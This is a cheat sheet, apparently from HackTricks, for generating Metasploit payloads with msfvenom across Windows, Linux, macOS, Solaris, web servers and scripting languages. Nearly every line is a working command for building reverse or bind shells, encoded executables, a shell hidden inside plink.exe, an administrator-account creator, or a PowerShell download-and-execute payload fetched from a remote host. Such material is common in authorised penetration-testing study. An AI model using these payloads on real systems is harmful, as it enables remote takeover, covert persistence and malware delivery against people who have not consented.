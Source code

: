 source: https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom#listing

**MSFVenom - CheatSheet**
<pre>msfvenom -p (PAYLOAD) -e (ENCODER) -f (FORMAT) -i (ENCODE COUNT) LHOST=(IP) </pre>
One can also use the -a to specify the architecture or the --platform

**Listing**
<pre>msfvenom -l #Payloads</pre>
<pre>msfvenom -l encoders #Encoders </pre>

**Common params when creating a shellcode**
<pre> -b "\x00\x0a\x0d" </pre>
<pre> -f c </pre>
<pre> -e x86/shikata_ga_nai -i 5 </pre>
<pre>EXITFUNC=thread </pre>
<pre> PrependSetuid=True #Use this to create a shellcode that will execute something with SUID </pre>


**Windows**
---
**Reverse Shell**
<pre>msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe </pre>
**Bind Shell**
<pre>msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe </pre>
**Create User**
<pre>msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe </pre>
**CMD Shell*
<pre> msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe </pre>
**Execute Command**
<pre> msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe </pre>
<pre>msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe </pre>
**Encoder**
<pre>msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe </pre>
**Embedded inside executable**
<pre>msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -x /usr/share/windows-binaries/plink.exe -f exe -o plinkmeter.exe </pre>

**Linux Payloads**
---
**Reverse Shell**
<pre>msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf </pre>
<pre>msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf </pre>
**Bind Shell**
<pre>msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf </pre>
**SunOS (Solaris)**
<pre>msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf </pre>

**MAC Payloads**
---
**Reverse Shell**
<pre>msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho </pre>
**Bind Shell**
<pre>msfvenom -p osx/x86/shell_bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f macho > bind.macho </pre>

**Web Based Payloads**
---
**PHP Reverse Shell**
<pre>msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php </pre>
<pre>cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php </pre>

**ASP/x Reverse Shell**
<pre>msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp</pre>
<pre>msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx </pre>

**JSP Reverse Shell**
<pre>msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp </pre>
**WAR Reverse Shell**
<pre>msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war </pre>
**NodeJS Reverse Shell**
<pre>msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) </pre>
**Script Language payloads**
---
**Perl**
<pre>msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl </pre>
**Python**
<pre>msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py </pre>
**Bash**
<pre>msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh </pre>
